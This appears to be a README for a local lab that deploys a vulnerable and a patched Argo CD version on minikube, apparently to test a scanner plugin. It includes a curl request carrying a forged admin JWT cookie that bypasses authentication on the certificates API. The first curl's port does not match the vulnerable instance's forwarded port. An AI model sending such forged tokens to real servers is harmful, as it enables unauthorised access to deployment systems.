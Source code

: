 # setup requirements
1. k8s with minikube: https://minikube.sigs.k8s.io/docs/start/ (we can use original k8s but this is a easy solution)
2. please don't forget to add `alias kubectl="minikube kubectl --"` to your shell environment.

# setup vulnerable instance (v2.3.3)

```bash
kubectl create namespace argocd
kubectl apply -n argocd -f https://raw.githubusercontent.com/argoproj/argo-cd/v2.3.3/manifests/install.yaml
kubectl edit -n argocd cm argocd-cm -o yaml
```

append the following:
```yaml
data:
  users.anonymous.enabled: "true"
```

check anonymous access is enabled:
`kubectl get -n argocd cm argocd-cm -o jsonpath='{.data.users\.anonymous\.enabled}'`

give access to the server from 127.0.0.1:8082 for testing the plugin:
`kubectl port-forward svc/argocd-server -n argocd 8082:443`

check it manually in another shell:
```bash
curl -i -s -k -X $'GET'  -H $'Host: 127.0.0.1:8082'   -b $'argocd.token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiJ9.TGGTTHuuGpEU8WgobXxkrBtW3NiR3dgw5LR-1DEW3BQ'  $'https://127.0.0.1:8081/api/v1/certificates'
```

# setup safe instance (v2.3.4)

```bash
kubectl create namespace argocdsafe
kubectl apply -n argocdsafe -f https://raw.githubusercontent.com/argoproj/argo-cd/v2.3.4/manifests/install.yaml
kubectl edit -n argocdsafe cm argocd-cm -o yaml
```

append the following:
```yaml
data:
  users.anonymous.enabled: "true"
```

check anonymous access is enabled:
`kubectl get -n argocdsafe cm argocd-cm -o jsonpath='{.data.users\.anonymous\.enabled}'`

give access to the server from 127.0.0.1:8081 for testing the plugin:
`kubectl port-forward svc/argocd-server -n argocdsafe 8081:443`

check it manually in another shell:
```bash
curl -i -s -k -X $'GET'  -H $'Host: 127.0.0.1:8081'   -b $'argocd.token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiJ9.TGGTTHuuGpEU8WgobXxkrBtW3NiR3dgw5LR-1DEW3BQ'  $'https://127.0.0.1:8081/api/v1/certificates'
```




